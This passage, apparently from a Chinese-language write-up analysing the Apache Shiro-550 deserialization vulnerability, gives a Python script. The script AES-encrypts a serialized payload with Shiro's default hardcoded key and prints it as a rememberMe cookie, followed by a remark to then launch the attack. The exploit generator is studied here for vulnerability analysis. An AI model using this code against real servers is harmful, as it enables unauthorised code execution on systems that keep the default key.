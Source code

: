 之后就是对序列化后的数据进行AES加密和base64加密：

```python
import sys
import uuid
import base64
from Crypto.Cipher import AES

def encode_rememberme():
    f = open('URLDNS.txt','rb')
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(f.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme()    
    print("rememberMe={0}".format(payload.decode()))
```

然后打就完了：

<img src="JAVA%E5%AE%89%E5%85%A8shiro-550%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/1711105808591.png" alt="1711105808591" style="zoom:50%;" />
